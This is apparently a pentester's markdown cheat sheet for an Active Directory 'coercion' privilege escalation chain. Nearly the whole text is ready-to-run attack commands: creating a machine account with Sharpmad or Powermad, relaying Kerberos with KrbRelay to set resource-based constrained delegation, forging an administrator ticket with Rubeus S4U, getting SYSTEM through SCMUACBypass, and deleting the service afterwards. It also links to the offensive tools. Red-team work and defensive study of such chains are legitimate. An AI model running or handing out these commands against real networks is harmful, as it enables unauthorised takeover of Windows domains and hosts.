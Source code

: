 # Coercion Attack

## Prerequisites
```
LDAP Signing should not to be enforced
ms-DS-MachineAccountQuota != 0  
```

### Add a computer account
```
Sharpmad.exe MAQ -Action new -MachineAccount <newComputer> -MachinePassword <newPassword>
or
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Get SID of new computer object 
```
$o = ([ADSI]"LDAP://CN=<newComputer>,CN=Computers,DC=<domainComponent>,DC=<domainComponent>").objectSID
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
```

### Modify msDS-AllowedToActOnBehalfOfOtherIdentity by relaying kerberos - Get suitable COM port for kerberos relaying
```
CheckPort.exe
```


### Modify msDS-AllowedToActOnBehalfOfOtherIdentity by relaying kerberos
```
KrbRelay.exe -spn ldap/<domainControllerFqdn> -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd <newComputerSid> -port <port>
```

### Get TGT for local admin
```
Rubeus.exe hash /password:<newPassword>
Rubeus.exe s4u /user:<newComputer> /rc4:<ntHashNewPassword> /impersonateuser:administrator /msdsspn:host/<targetComputerFqdn> /ptt
```

### Get SYSTEM by patching the Win32 API in Service Control Manager 
```
SCMUACBypass.exe
```

### Cleanup service created by SCMUACBypass
```
sc delete <service>
```

## Tools / References
https://github.com/Kevin-Robertson/Sharpmad
https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
https://github.com/cube0x0/KrbRelay
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1
https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82 (compile using: cl -DUNICODE SCMUACBypass.cpp advapi32.lib)
https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9

